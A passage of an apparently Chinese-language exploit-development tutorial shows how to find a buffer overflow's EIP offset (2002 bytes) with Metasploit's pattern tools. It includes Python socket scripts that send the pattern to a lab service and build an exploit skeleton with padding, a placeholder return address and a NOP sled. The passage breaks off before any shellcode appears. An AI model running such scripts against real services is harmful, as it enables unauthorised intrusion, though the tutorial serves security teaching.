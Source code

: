 ![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712084847224-187175942.png)

为了能够更加精确的计算出缓冲区的具体大小，我们还需使用`Metasploit`中集成工具，该工具默认需要一起配合使用，其原理就是利用了随机字符串计算当前字符串距离缓冲区首部的偏移，通过使用唯一字符串法，我们可以快速定位到当前缓冲区的实际大小，要使用`Metasploit`的工具需要先配置好环境变量，你可以先执行以下操作，然后再利用`pattern_create.rb`生成长度为`3000`字节的字符串。

    ┌──(lyshark㉿kali)-[~]
    └─$ cd /usr/share/metasploit-framework/tools/exploit                                                                                 
    
    ┌──(lyshark㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
    └─$ bundle install
    
    ┌──(lyshark㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
    └─$ ./pattern_create.rb -l 3000
    

当读者执行`pattern_create.rb`生成模糊测试字符串时，接着读者需要准备要一段可发送这段字符串的Python程序，并将字符串填充至`buffer`变量内，构建出如下所示的代码用例；

    # coding:utf-8
    import socket
    
    host = "192.168.9.118"
    port = 9999
    
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((host,port))
    command = b'send |/.:/'
    buffer = b '<字符串填充到这里>'
    
    sock.send(command + buffer)
    sock.close()
    

当读者填充好数据以后，远程主机再次通过`x64dbg`附加，并运行如上放所示的攻击脚本，此时调试器会产生一个异常，并且显示当前EIP的位置为`0x6F43376F`如下图所示；

![](https://img2023.cnblogs.com/blog/1379525/202307/1379525-20230712084934613-34783349.png)

接着读者可以通过使用`Metasploit`中提供的第二个工具`pattern_offset.rb`计算出当前缓冲区的实际大小是`2002`接着就可以写出漏洞利用的基础框架，其中的`EIP`是一个未知数，我们暂且先用`BBBB`来填充，此时的`BBBB`所对应的是`42424242`

    ┌──(lyshark㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
    └─$ ./pattern_offset.rb -q 0x6F43376F -l 3000
    [*] Exact match at offset 2002
    

至此读者可根据上述代码案例写出如下所示的Python代码，其中`command`为发送数据包所需要的特有格式，`buffer`则填充为`2002`字节也就是正常缓冲区的长度，接下来则是EIP的位置，此处暂且使用`BBBB`代替，最后是NOP雪橇的50个字符长度。

    # coding:utf-8
    
    import socket
    host = "192.168.9.118"
    port = 9999
    
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((host,port))
    command = b"send |/.:/"
    buffer = b'A' * 2002
    eip = b'BBBB'
    nops = b'\x90' * 50 
    
